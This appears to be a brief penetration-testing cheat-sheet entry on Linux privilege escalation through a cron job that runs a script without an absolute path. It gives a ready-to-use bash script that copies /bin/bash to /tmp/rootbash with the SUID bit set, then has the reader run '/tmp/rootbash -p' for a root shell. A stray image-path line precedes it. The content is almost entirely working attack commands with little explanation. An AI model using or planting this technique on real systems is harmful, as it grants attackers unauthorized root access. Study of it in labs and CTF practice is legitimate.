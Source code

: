 1. When The path to the cronjob shell file  is not specified we can create a new shell file with this content:-
```console
#!/bin/bash

cp /bin/bash /tmp/rootbash
chmod +xs /tmp/rootbash
```
2. Give it execution previlege and let it run 
3. Then run 
```console
/tmp/rootbash -p
```
